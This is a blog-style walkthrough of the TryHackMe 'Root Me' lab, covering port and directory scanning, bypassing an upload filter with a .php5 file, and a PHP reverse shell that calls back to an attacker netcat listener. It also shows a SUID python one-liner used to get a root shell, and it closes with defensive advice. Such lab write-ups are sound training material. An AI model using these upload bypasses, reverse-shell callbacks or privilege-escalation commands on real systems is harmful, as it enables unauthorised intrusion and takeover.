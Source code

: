 ```yaml
---
layout: post
title:  "[THM walkthrough] - Root Me"
date:   2021-05-02 16:57:00 +0300
tags: tryhackme easy writeup walkthrough
categories: tryhackme
---
```

**Room URL**: <https://tryhackme.com/room/rrootme>

**Difficulty**: Easy

## RECONNAISSANCE

I went ahead to get information about the target, focusing on the open ports and the services running on them. For this, I chose to use nmap.

```
$ nmap -vv -n -Pn -sV -oN services.nmap 10.10.234.224
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 15:09 EAT
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 15:09
Scanning 10.10.234.224 [1000 ports]
Discovered open port 22/tcp on 10.10.234.224
Discovered open port 80/tcp on 10.10.234.224
Increasing send delay for 10.10.234.224 from 0 to 5 due to 22 out of 72 dropped probes since last increase.
Increasing send delay for 10.10.234.224 from 5 to 10 due to max_successful_tryno increase to 4
Connect Scan Timing: About 42.85% done; ETC: 15:10 (0:00:41 remaining)
Completed Connect Scan at 15:10, 83.97s elapsed (1000 total ports)
Initiating Service scan at 15:10
Scanning 2 services on 10.10.234.224
Completed Service scan at 15:10, 7.00s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.234.224.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 15:10
Completed NSE at 15:10, 10.33s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 15:10
Completed NSE at 15:10, 2.46s elapsed
Nmap scan report for 10.10.234.224
Host is up, received user-set (0.45s latency).
Scanned at 2021-05-02 15:09:08 EAT for 104s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.27 seconds
```

Visiting the HTTP service in the browser, this is what was diplayed.

![Web content on HTTP port 80](/assets/thm/rootme/http-port-in-browser.png)

Since there was nothing interesting in the page source, I went ahead to do directory bruteforcing with GoBuster to find some interesting hidden directories as required.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.234.224 -o dirs           
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.234.224
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/02 15:19:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.234.224/css/]
/index.php            (Status: 200) [Size: 616]                                
/js                   (Status: 301) [Size: 311] [--> http://10.10.234.224/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.234.224/panel/]
/server-status        (Status: 403) [Size: 278]                                  
/uploads              (Status: 301) [Size: 316] [--> http://10.10.234.224/uploads/]

===============================================================
2021/05/02 15:24:06 Finished
===============================================================
```

The `/panel/` directory looked interesting, so I decided to visit it. Visiting `http://10.10.234.224/panel/` in the browser, the below was displayed.

![Panel directory web page](/assets/thm/rootme/panel-http-page.png)

## GETTING A SHELL

First, I tested the different files I could upload. I tested uploading `.txt` files and they were successfully uploaded. I tried `.php` files and they were rejected. So I tested with the different PHP file extensions i.e. `.php7` and `.php5`. The `.php7` files were accepted, but could not execute. The `.php5` files were successfully uploaded and could execute well.

```
$ cat test2.php5              
<?php echo "It works"; ?>
```

![Uploading PHP5 test file](/assets/thm/rootme/test-php-file-upload.png)

![Successful PHP5 test file execution](/assets/thm/rootme/successful-test-code-execution.png)

So using this knowledge, I used the template PHP remote shell file provided in Kali Linux in `/usr/share/webshells/php/php-reverse-shell.php` and made the following adjustments to it.

```
line 49: $ip = '10.8.146.22';
line 50: $port = 5555;
```

I proceeded to upload the shell as `about.php5` (how dubious! >:-} hahahahaaa). Before executing it, I setup my netcat listener to catch the remote shell. I then executed the file and acquired the shell.

```
$ nc -lvnp 5555                                  
listening on [any] 5555 ...
connect to [10.8.146.22] from (UNKNOWN) [10.10.234.224] 54070
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:08:13 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Using the find command, I proceeded to get the user flag in `user.txt`.

```
$ find . -iname '*user.txt*' 2>/dev/null
```

## PRIVILEGE ESCALATION

Using the find command, I found the files with SUID permissions as required.

```
$ find . -type f -perm -u+s 2>/dev/null   
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
<snip>
./bin/fusermount
./bin/ping
./bin/umount
```

From the output, the `python` binary was looking off (normally, it would have no SUID permissions set), so I used it with the steps in <https://gtfobins.github.io/gtfobins/python/> to escalate my privileges and get the root flag in `root.txt`.

```
$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

## FINAL THOUGHTS

### My Security Recommendations

- Ensure to do thorough input validation and escaping when allowing any user to upload content to a web service.
- If uploading content is necessary, implement user authentication, application jails and a WAF for the web service.
- To view the content uploaded, set up output validation as well and escape any content so that it's not executable.
- Setup endpoint security to monitor and alert on insecure executable permissions or permission changes.
